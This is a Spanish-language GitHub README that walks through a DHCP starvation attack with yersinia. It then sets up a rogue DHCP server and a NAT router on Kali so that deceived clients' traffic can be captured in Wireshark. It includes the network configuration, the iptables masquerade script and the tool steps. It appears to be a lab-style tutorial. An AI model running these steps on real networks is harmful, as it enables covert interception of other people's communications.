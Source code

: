 # Spoofing.kali
Suplantación del servidor DHCP en una red mediante un ataque "starvation" y posterior suplantación para escucha de informacion.

## Configuración red de maquina atacante Kali
Lo primero es configurar nuestra máquina atacante con dos tarjetas de red, una para la red interna en la que hará la suplantación del servicio DHCP y otra que conectará con el internet para proveer de internet a los usuarios engañados y poder escuchar su información, haciendo función de un router normal.<br>
```
    sudo nano -c /etc/network/interfaces
```
```
    ####RED INTERNA####
    auto eth0
    iface eth0 inet static
        address 192.168.1.66
        netmask 255.255.255.0
        dns-nameservers 8.8.8.8, 8.8.4.4

    ####RED EXTERNA####
    auto eht1
    iface eth1 inet static
        address 10.4.33.130
        netmask 255.255.255.0
        gateway 10.33.4.1
```
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/3f313f7e-8bd3-461b-868d-7822a120b7d2) <br>

- **Habilitación de Forwarding persistente** <br>

Ahora debemos configurar nuestra máquina atacante para que pueda hacer un reenvío de paquetes y funcionar como router.
```
    sudo nano -c /sysctl.conf
```
Esta opción viene comentada, con buscarla y descomentarla sirve. Esta es una forma persistente de activar el forwarding.
```
    net.ipv4.ip_forward=1
```
- **Habilitación de nateo persistente** <br>
Por último debemos crear un pequeño script que habilite el nateo cada vez que se arranque el ordenador:
```
    sudo nano -c masquerade.sh
```
```
    #!/bin/bash
    sudo iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE
```
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/056aa1ba-51f7-400f-a051-69fa823f0ae6)

Una vez creado el script, podemos hacer que se ejecute con un cron de forma automática:
```
    sudo crontab -e
```
```
    ##Sustituir ruta por la ruta en la que se encuentre el script
    @reboot /home/administrador/masquerade.sh
```
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/bf13804f-180d-43ea-96b0-01b4bc0dcdb9)

- **Reinicio del sistema y comprobación**
Comprobar que tenemos la configuración red correcta, el forwarding activado y el nateo:
  * Reiniciar<br>
      ```
          sudo reboot
      ```
  * IP <br>
  ![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/4aeb46b3-8221-4a30-bd6d-099b877f8b17)
    ```
         ip a
    ```
  * Forwarding <br>
    ```
        cat /proc/sys/net/ipv4/ip_forward
    ```
  * Nateo <br>
    ```
        sudo iptables -nv -t nat -L POSTROUTING
    ```
    ![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/c16142ad-cfeb-4062-91a2-096255fa2907)

## Inicio del ataque starvation
Para el ataque starvation usaremos yersinia, su interfaz gráfica no funciona bien, así que usaremos su consola en fomato visual
```
    sudo apt-get install yersinia
```
```
    sudo yersinia -I
```
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/aa63a0ea-4fdd-402e-a80d-a18b66f6d813) <br>
Debemos usar el modo DHCP, así que pulsamos `Espacio + F2` <br>

---
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/5fbda515-0010-42c9-a531-e10fea809567) <br>
Ahora abrimos el menú de ataques con `x` y pulsamos el ataque `1` envío de DHCPDISCOVER <br>
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/77e0c585-b8d7-438f-bd21-102a7789da94) <br>
El ataque ya ha sido lanzado, podemos dejarlo en ejecución o bien dejarlo un tiempo prudencial en el que le de tiempo a ocupar todas las IPs y luego apagarlo con `l` (L minúscula) <br>
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/11810f7b-cd3b-4a21-9c0c-6d1adaf3cb76) <br>
Una vez lanzado el ataque y ocupado todas las IPs del servidor DHCP, debemos hacernos pasar nosotros por servidor DHCP. Para ello volvemos al menú con `x` y y elegimos la opción `2` de creación de un servidor DHCP.<br>
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/4dda990d-ef86-47e4-bebd-754511593c7e) <br>
Configuración del servidor DHCP malicioso: <br>
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/5eea8c83-558f-4358-a37c-c8a20a4ff225) <br>

## Escucha de información con Wireshark
Una vez alguien trate de conectarse al router original, no tendrá IPs para otorgarle y entonces nosotros le daremos una IP falsa sin que él se percate, este podrá conectarse a internet con normalidad pero a través de nuestro router no del suyo, lo que nos permite escuchar toda su información.
```
    sudo apt install wireshark
```
```
    sudo wireshark
```
Seleccionamos nuestra tarjeta de red interna y podremos ver todos los paquetes enviados y recividos de la máquina engañada.
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/105fdbd8-fc46-4c29-979e-32fd90ea8473)


